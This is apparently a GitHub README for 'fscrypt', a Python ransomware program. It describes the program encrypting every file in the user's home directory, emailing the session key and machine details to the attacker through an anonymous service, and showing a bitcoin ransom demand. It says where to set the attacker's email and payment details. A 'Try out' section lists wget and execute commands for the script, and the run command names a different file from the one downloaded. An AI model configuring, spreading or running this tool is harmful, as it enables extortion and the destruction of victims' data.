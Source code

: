 Warning
Do not actually execute this on your Host OS! especially...

fscrypt.start(debug=False)  --> Catastrophic!
Overview
The program is quite simple. Once invoked, it generates session_id and session_key, then it starts encrypting all files under your user directory. Finally, it will send the victim's machine info, session_id and session_key to the attacker with an anonymous email service (through mechanize), as well as displaying a notice to the victim, telling he/she to pay the ransom via bitcoin.

You may notice that I use Node and LinkedList to generate session_id and session_key. (This sequence generator was actually one of my assignment when I was a freshmen). It assembles a sequence with 0~68 unrepeatedly, in random order.

Check the object variable of fscrypt. You can set your email address and payment related stuff there.

Requirements
Python 2.7
pyCrypto (crypto operations)
urllib2 (retrieve user ipv4 address)
mechanize (send session_key via anonymous email)
webbrowser (open html notice at the end)

Try out
wget https://raw.githubusercontent.com/aesophor/fscrypt/master/fscrypt.py
sudo chmod u+x fscrypt.py
./fuxsocy.py
